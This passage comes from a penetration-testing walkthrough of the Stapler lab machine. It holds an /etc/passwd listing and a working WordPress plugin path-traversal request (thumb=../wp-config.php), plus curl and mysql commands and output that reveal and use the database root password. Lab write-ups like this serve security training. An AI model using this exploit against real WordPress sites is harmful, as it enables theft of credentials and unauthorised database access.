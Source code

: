 ```
kai:x:1025:1025::/home/kai:/bin/sh
zoe:x:1026:1026::/home/zoe:/bin/bash
NATHAN:x:1027:1027::/home/NATHAN:/bin/bash
www:x:1028:1028::/home/www:
postfix:x:112:118::/var/spool/postfix:/bin/false
ftp:x:110:116:ftp daemon,,,:/var/ftp:/bin/false
elly:x:1029:1029::/home/elly:/bin/bash
```

Before we fire up a brute force attack, we should check to see if there are any other bits of information we can leverage. Reviewing the WP backup, I noticed there is no wp-config.php only wp-config-sample.php. wp-config.php is where an admin can hard code credentials to manage the dB, a dB we might be able to get access to if we can get root password. We know from earlier root login is possible on the dB, lets try and get the details.

Lets create a new 'image' by going to:

https://192.168.56.104:12380/blogblog/wp-admin/admin-ajax.php?action=ave_publishPost&title=random&short=1&term=1&thumb=../wp-config.php

then curling:

``` bash
curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/1006632345.jpeg
```

quick way to refernce only the dB details:

``` bash
curl -k https://$STAPLER_IP:12380/blogblog/wp-content/uploads/1006632345.jpeg | grep "DB"
```
yields root:plbkac as the dB root password

```
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'plbkac');
define('DB_HOST', 'localhost');
define('DB_CHARSET', 'utf8mb4');
define('DB_COLLATE', '');
define('AUTH_SALT',        'I{gDlDs`Z@.+/AdyzYw4%+<WsO-LDBHT}>}!||Xrf@1E6jJNV={p1?yMKYec*OI$');
```

lets try logging in:

``` Bash
mysql -h $STAPLER_IP -u root -pplbkac 
# note no spaces for password!

```
I'm in!

```
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 32
Server version: 5.7.12-0ubuntu1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]> 
```
